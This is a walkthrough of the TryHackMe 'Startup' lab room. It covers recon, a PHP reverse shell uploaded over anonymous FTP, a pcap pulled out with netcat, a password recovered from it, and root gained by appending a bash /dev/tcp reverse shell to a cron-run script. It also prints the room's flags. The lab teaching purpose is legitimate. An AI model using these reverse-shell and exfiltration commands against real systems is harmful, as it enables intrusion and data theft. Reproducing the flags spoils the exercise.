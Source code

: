 # Startup

![tryhackme.com - © TryHackMe](.gitbook/assets/tryhackme-logo-small.png)

## Room Info

> **Name**
>
> 🔗 [Startup](https://tryhackme.com/room/startup)
>
> **Description**
>
> 📝 ***We are Spice Hut,** a new startup company that just made it big! We offer a variety of spices and club sandwiches (in case you get hungry), but that is not why you are here. To be truthful, we aren't sure if our developers know what they are doing and our security concerns are rising. We ask that you perform a thorough penetration test and try to own root.*
>
> ![](.gitbook/assets/startup.png)
>
> **Target IP**
>
> 🎯 `10.10.173.77`

## Recon

```bash
su
echo "10.10.173.77 startup.thm" >> /etc/hosts

# At the end of the room
# To clean up the last line from the /etc/hosts file
sed -i '$ d' /etc/hosts
```

Start Reconnaissance

```bash
mkdir thm/startup
cd thm/startup
nmap startup.thm
    21/tcp open  ftp
    22/tcp open  ssh
    80/tcp open  http

nmap -sV -sC -Pn -oA startup startup.thm
```

```bash
21/tcp open  ftp  vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.18.65.48
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| drwxrwxrwx    2 65534    65534        4096 Nov 12  2020 ftp [NSE: writeable]
| -rw-r--r--    1 0        0          251631 Nov 12  2020 important.jpg
|_-rw-r--r--    1 0        0             208 Nov 12  2020 notice.txt
22/tcp open  ssh  OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 b9a60b841d2201a401304843612bab94 (RSA)
|   256 ec13258c182036e6ce910e1626eba2be (ECDSA)
|_  256 a2ff2a7281aaa29f55a4dc9223e6b43f (ED25519)
80/tcp open  http  Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Maintenance
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

Enumerate Web server directories

```bash
gobuster dir -u http://startup.thm -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
```

```bash
/files (Status: 301) [Size: 310] [--> http://startup.thm/files/]
```

Navigate to

- `http://startup.thm/files/`

![](.gitbook/assets/image-20230515143244492.png)

Login via FTP with `anonymous`:`anonymous`. The files in the folder are the ones from the `/files` webpage.

```bash
ftp startup.thm

ls
```

![](.gitbook/assets/image-20230515143526046.png)

## Exploitation

Get a Reverse shell by uploading a `PHP` file via FTP and run it through the web page.

```bash
cp /usr/share/webshells/php/php-reverse-shell.php .
nano php-reverse-shell.php
# Set $ip & $port
$ip = '10.18.65.48';
$port = 1234;

mv php-reverse-shell.php shell.php
```

```bash
# In the FTP anonymous session
cd ftp
put shell.php
```

```bash
nc -nvlp 1234
```

- Navigate to `http://startup.thm/files/ftp/shell.php` to get a reverse shell

![](.gitbook/assets/image-20230515145419274.png)

```bash
/usr/bin/script -qc /bin/bash /dev/null

ls
cat recipe.txt

ls -lah /home
	lennie

ls /incidents
	suspicious.pcapng

cp /incidents/suspicious.pcapng /var/www/html/files/smb
# Permissions denied
```

![](.gitbook/assets/image-20230515151802211.png)

Transfer `	suspicious.pcapng` using `netcat`

```bash
# Kali
nc -nvlp 5555 > susp.pcap

# Startup box
nc -nv 10.18.65.48 5555 < /incidents/suspicious.pcapng
```

Analyze the `susp.pcap` file in Wireshark or use the `strings` command

```bash
strings susp.pcap
```

![](.gitbook/assets/image-20230515152948262.png)

Try the string as password for `lennie` user.

```bash
su lennie
# password: c4ntg3t3n0ughsp1c3
# It works
```

> 📌 `lennie`:`c4ntg3t3n0ughsp1c3`

```bash
find / -type f -iname user.txt 2>/dev/null
cat /home/lennie/user.txt
```



<details>
<summary>Reveal Flag - user.txt: 🚩</summary>



`THM{03ce3d619b80ccbfb3b7fc81e46c0e79}`

![](.gitbook/assets/image-20230515153155071.png)

</details>

Close the reverse shell and connect via SSH

```bash
ssh lennie@startup.thm
```

Perform some Enumeration with `lennie` user

```bash
ls -lah *
    -rw-r--r-- 1 lennie lennie   38 Nov 12  2020 user.txt
    
    Documents:
    total 20K
    drwxr-xr-x 2 lennie lennie 4.0K Nov 12  2020 .
    drwx------ 5 lennie lennie 4.0K May 15 13:37 ..
    -rw-r--r-- 1 root   root    139 Nov 12  2020 concern.txt
    -rw-r--r-- 1 root   root     47 Nov 12  2020 list.txt
    -rw-r--r-- 1 root   root    101 Nov 12  2020 note.txt
    
    scripts:
    total 16K
    drwxr-xr-x 2 root   root   4.0K Nov 12  2020 .
    drwx------ 5 lennie lennie 4.0K May 15 13:37 ..
    -rwxr-xr-x 1 root   root     77 Nov 12  2020 planner.sh
    -rw-r--r-- 1 root   root      1 May 15 13:38 startup_list.txt

cat scripts/*
cat Documents/*
cat /etc/print.sh
ls -lah /etc/print.sh
	-rwx------ 1 lennie lennie 25 Nov 12  2020 /etc/print.sh
```

![](.gitbook/assets/image-20230515154046856.png)

## Privilege Escalation

Since `planner.sh` will be run as root (with a cron job), and it contains the `/etc/print.sh` command script, modify `/etc/print.sh` and input a payload (a reverse shell for example) into it to run it as `root`.

```bash
echo "/bin/bash -i >& /dev/tcp/10.18.65.48/3333 0>&1" >> /etc/print.sh
```

Wait for the reverse shell on the attacker machine. The root will run the `planner.sh` script once a minute.

```bash
# Kali
nc -nvlp 3333
```

![](.gitbook/assets/image-20230515155056052.png)

```bash
find / -type f -iname root.txt 2>/dev/null
cat /root/root.txt
```





<details>
<summary>Reveal Flag - root.txt: 🚩</summary>


`THM{f963aaa6a430f210222158ae15c3d76d}`

![](.gitbook/assets/image-20230515155220667.png)

</details>



------

